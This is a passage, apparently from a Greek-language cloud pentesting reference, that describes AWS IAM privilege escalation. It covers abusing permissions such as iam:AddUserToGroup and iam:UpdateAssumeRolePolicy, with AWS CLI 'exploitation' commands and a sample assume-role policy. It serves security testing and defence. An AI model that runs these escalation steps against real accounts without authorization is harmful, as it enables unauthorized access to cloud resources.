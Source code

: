 ```json
{
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}
```
**Επίπτωση:** Άμεση κλιμάκωση προνομίων με την προσθήκη δικαιωμάτων μέσω πολιτικών.

### **`iam:AddUserToGroup`**

Επιτρέπει να προσθέσει τον εαυτό του σε μια ομάδα IAM, κλιμακώνοντας τα προνόμια μέσω της κληρονομίας των δικαιωμάτων της ομάδας.

**Εκμετάλλευση:**
```bash
aws iam add-user-to-group --group-name <group_name> --user-name <username>
```
**Επίπτωση:** Άμεση κλιμάκωση προνομίων στο επίπεδο των δικαιωμάτων της ομάδας.

### **`iam:UpdateAssumeRolePolicy`**

Επιτρέπει την τροποποίηση του assume role policy document ενός role, επιτρέποντας την ανάληψη του role και των αντίστοιχων δικαιωμάτων του.

**Exploit:**
```bash
aws iam update-assume-role-policy --role-name <role_name> \
--policy-document file:///path/to/assume/role/policy.json
```
Όταν η πολιτική έχει την εξής μορφή, η οποία δίνει στον χρήστη την άδεια να αναλάβει τον ρόλο:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sts:AssumeRole",
"Principal": {
"AWS": "$USER_ARN"
}
}
]
}
```
**Impact:** Άμεση κλιμάκωση προνομίων με την ανάληψη των δικαιωμάτων οποιουδήποτε ρόλου.

### **`iam:UploadSSHPublicKey` || `iam:DeactivateMFADevice`**

Επιτρέπει την αποστολή δημόσιου κλειδιού SSH για αυθεντικοποίηση στο CodeCommit και την απενεργοποίηση συσκευών MFA, οδηγώντας σε πιθανή έμμεση κλιμάκωση προνομίων.
